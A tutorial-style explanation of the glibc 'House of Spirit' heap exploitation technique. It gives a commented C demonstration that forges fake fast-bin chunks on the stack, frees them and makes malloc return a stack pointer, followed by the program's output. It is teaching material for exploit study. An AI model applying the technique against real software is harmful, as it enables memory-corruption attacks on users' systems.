 # House of Spirit Explanation

So this is a well documented C source file that explains how a House of Spirit attack works. It was ran on Ubuntu 16.04. Essentially with a House of Spirit attack, we create two fake chunks by writing two integers to a region of memory that will represent the sizes of the fake chunks. Then we get a pointer to point to the first fake chunk, and free it. Then we get malloc to return a pointer to that memory region. So it essentially allows us to get malloc to return a pointer to a region of memory that we can write two integers to.

It might seem a bit redundant since we can already write to this memory region. However if we can get malloc to return a pointer to a memory region, depending on the code we should be able to edit/view/manipulate that region of memory differently.

Here is the source code:
```
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
	puts("So we will be covering a House of Spirit Attack.");
	puts("A House of Spirit Attack allows us to get malloc to return a fake chunk to a region we have some control over (such as the bss or stack).");
	puts("In order for this attack to work and pass all of the malloc checks, we will need to make two fake chunks.");
	puts("To setup the fake chunks, we will need to write fake size values for the chunks.");
	puts("Also the first fake chunk is where we will want our chunk returned by malloc to be.");
	puts("Let's get started!\n");


	unsigned long array[20];
	printf("So we start off by initializing our array on the stack.\n");
	printf("Array Start: %p\n", array);
	printf("Our goal will be to allocate a chunk at %p\n\n", &array[2]);


	printf("Now we need to write our two size values for the chunks.\n");
	printf("There are three restrictions we have to meet.\n\n");

	printf("0.) Size of the chunks must be within the fast bin range.\n");
	printf("1.) The size values must be placed where they should if they were an actual chunk.\n");
	printf("2.) The size of the first heap chunk (the one that gets freed and reallocated) must be the same as the rounded up heap size of the malloc that we want to allocate our fake chunk.\n");
	printf("That should be larger than the argument passed to malloc.\n\n");

	printf("Also as a side note, the two sizes don't have to be equal.\n");
	printf("Check the code comments for how the fake heap chunks are structured.\n");
	printf("With that, let's write our two size values.\n\n");

	/*
	this will be the structure of our two fake chunks:
	assuming that you compiled it for x64

	+-------+---------------------+------+
	| 0x00: | Chunk # 0 prev size | 0x00 |
	+-------+---------------------+------+
	| 0x08: | Chunk # 0 size      | 0x60 |
	+-------+---------------------+------+
	| 0x10: | Chunk # 0 content   | 0x00 |
	+-------+---------------------+------+
	| 0x70: | Chunk # 1 prev size | 0x00 |
	+-------+---------------------+------+
	| 0x78: | Chunk # 1 size      | 0x40 |
	+-------+---------------------+------+
	| 0x80: | Chunk # 1 content   | 0x00 |
	+-------+---------------------+------+

	for what we are doing the prev size values don't matter too much
	the important thing is the size values of the heap headers for our fake chunks
	*/

	array[1] = 0x60;
	array[13] = 0x40;

	printf("Now that we setup our fake chunks set up, we will now get a pointer to our first fake chunk.\n");
	printf("This will be the ptr that we get malloc to return for this attack\n");

	unsigned long *ptr;
	ptr = &(array[2]);

	printf("Address: %p\n\n", ptr);

	printf("Now we will free the pointer to place it into the fast bin.\n");

	free(ptr);

	printf("Now we can just allocate a chunk that it's rounded up malloc size will be equal to that of our fake chunk (0x60), and we should get malloc to return a pointer to array[1].\n\n");

	unsigned long *target;
	target = malloc(0x50);

	printf("returned pointer: %p\n", target);

}
```

When we run it:
```
$	./house_spirit_exp 
So we will be covering a House of Spirit Attack.
A House of Spirit Attack allows us to get malloc to return a fake chunk to a region we have some control over (such as the bss or stack).
In order for this attack to work and pass all of the malloc checks, we will need to make two fake chunks.
To setup the fake chunks, we will need to write fake size values for the chunks.
Also the first fake chunk is where we will want our chunk returned by malloc to be.
Let's get started!

So we start off by initializing our array on the stack.
Array Start: 0x7ffd2d2cbc10
Our goal will be to allocate a chunk at 0x7ffd2d2cbc20

Now we need to write our two size values for the chunks.
There are three restrictions we have to meet.

0.) Size of the chunks must be within the fastin range.
1.) The size values must be placed where they should if they were an actual chunk.
2.) The size of the first heap chunk (the one that gets freed and reallocated) must be the same as the rounded up heap size of the malloc that we want to allocate our fake chunk.
That should be larger than the argument passed to malloc.

Also as a sidenote, the two sizes don't have to be equal.
Check the code comments for how the fake heap chunks are structured.
With that, let's write our two size values.

Now that we setup our fake chunks set up, we will now get a pointer to our first fake chunk.
This will be the ptr that we get malloc to return for this attack
Address: 0x7ffd2d2cbc20

Now we will free the pointer to place it into the fast bin.
Now we can just allocate a chunk that it's rounded up malloc size will be equal to that of our fake chunk (0x60), and we should get malloc to return a pointer to array[1].

returned pointer: 0x7ffd2d2cbc20
```

